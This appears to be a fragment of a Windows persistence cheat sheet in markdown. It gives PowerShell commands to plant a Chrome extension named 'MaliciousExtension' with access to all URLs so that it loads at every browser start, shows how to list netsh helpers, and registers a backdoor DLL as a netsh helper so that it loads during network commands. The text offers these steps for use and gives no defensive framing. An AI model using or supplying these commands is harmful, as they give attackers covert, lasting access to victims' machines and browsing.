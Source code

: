 # Miscellaneous

#### Browser Extensions
- Install a malicious browser extension that loads every time the browser is started.
	```powershell
	$path = "$env:APPDATA\Google\Chrome\User Data\Default\Extensions\MaliciousExtension"
	New-Item -ItemType Directory -Path $path
	Set-Content -Path "$path\manifest.json" -Value '{ "name": "MaliciousExtension", "version": "1.0", "permissions": ["<all_urls>"], "background": { "scripts": ["background.js"] } }'
	```

#### View Registered `Netsh` Helpers
- To view registered `netsh` helpers:
	```powershell
	netsh show helper
	```

#### `Netsh` Helper DLL
- You can use `netsh` to register a malicious DLL that will be loaded whenever certain network-related commands are run.
	```powershell
	netsh add helper C:\Backdoor\backdoor.dll
	```
